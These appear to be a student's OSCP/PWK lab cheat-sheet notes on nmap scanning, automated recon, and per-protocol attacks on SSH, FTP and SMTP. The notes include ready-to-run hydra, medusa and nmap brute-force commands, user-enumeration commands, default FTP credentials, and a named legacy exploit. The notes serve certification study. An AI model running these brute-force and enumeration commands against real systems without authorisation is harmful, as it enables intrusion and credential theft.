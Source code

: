 ### automate VPN

tar xvzf file.tar.gz  <br />
echo 'OS-#####' > cred.txt <br />
echo ' #######' >> cred.txt <br />
vi auth-user-pass cred.txt <br />
openvpn OS-####-PWK.ovpn 


### Default Nmap Scanning<br />
nmap -sU -sV -n --top-ports 200 192.168.1.30  > /root/PWK-Lab/192.168.1.30/nmap-udp<br />
nmap -sT -sV -A -O -v -p 1-65535 192.168.1.30 > /root/PWK-Lab/192.168.1.30/nmap-tcp<br />

-sS stealth scanning<br />
nmap -vv -Pn -A -sC -sS -T 4 -p- 10.0.0.1<br />
nmap -p- -sS -A 192.168.88.155<br />

Vuln scan : nmap -sS -sV --script=vulscan/vulscan.nse 10.11.1.44<br />
OS detection : nmap -O -v 10.11.1.5<br />


### automated scanning tools<br />
python /root/Recon/Reconnoitre/reconnoitre.py -t 10.11.1.125 -o /root/PWK-Lab/10.11.1.125/ --services
ref : https://github.com/codingo/Reconnoitre



### Scanning per protocols
- SSH(22)
OpenFuck (Apache mod_ssl < 2.8.7 OpenSSL) 764.c <br />
Bruteforce : <br />
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=users.txt --script-args ssh-brute.timeout=4s 192.168.88.152
hydra -l user -P /usr/share/wordlists/rockyou.txt  192.168.88.171 ssh -t 4
ref : <br />
https://github.com/g0tmi1k/debian-ssh 
https://blog.g0tmi1k.com/2010/04/pwnos/


### FTP(21)
default cred ; (anonymous/anonymous) | (ftp/ftp) | (ftpuser|ftpuser)<br />
nmap -sV -Pn -vv -p 21  --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 10.11.1.226<br />
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
check windows OS files : https://www.quora.com/How-can-I-tell-what-version-of-Windows-is-installed-on-a-hard-drive-without-booting-it<br />
Bruteforce : <br />
medusa -h 192.168.88.152 -u user -P /root/SecLists/Passwords/bt4-password.txt -M ftp<br />
./root/PWK-Lab/FTP/ftp-user-enum-1.0/ftp-user-enum.pl -U /root/PWK-Lab/fuzzdb/bruteforce/names/simple-users.txt -t 10.11.1.116"<br />



### SMTP(25)
nmap --script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.227<br />
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1<br />
nmap --script smtp-enum-users.nse 10.11.1.229<br />
smtp-user-enum -M VRFY -U users.txt -t 10.11.1.229<br />
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.88.171<br />
smtp-user-enum -M VRFY -U  /usr/share/seclists/Usernames/Names/names.txt -t 10.11.1.229<br />
telnet INSERTIPADDRESS 25<br />
nc -nvv INSERTIPADDRESS 25<br />
msf module : auxiliary/scanner/smtp/smtp_enum<br />
